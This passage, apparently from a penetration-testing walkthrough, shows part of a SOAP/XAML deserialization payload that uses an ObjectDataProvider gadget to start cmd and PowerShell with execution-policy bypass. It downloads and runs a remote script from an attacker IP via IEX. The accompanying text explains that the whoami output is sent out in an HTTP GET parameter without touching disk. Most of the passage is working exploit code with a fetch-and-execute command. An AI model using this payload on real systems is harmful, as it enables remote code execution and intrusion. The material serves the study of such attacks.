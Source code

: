```xml
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c &#34;powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.27.2:445/payload.txt')"&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```

We can see the output of the "whoami" command being transmitted in the HTTP GET parameter. This is because PowerShell fetched the remote resource and then immediately executed it using the IEX command. Note that we haven't even touched the filesystem!

![](./assets/29.png)
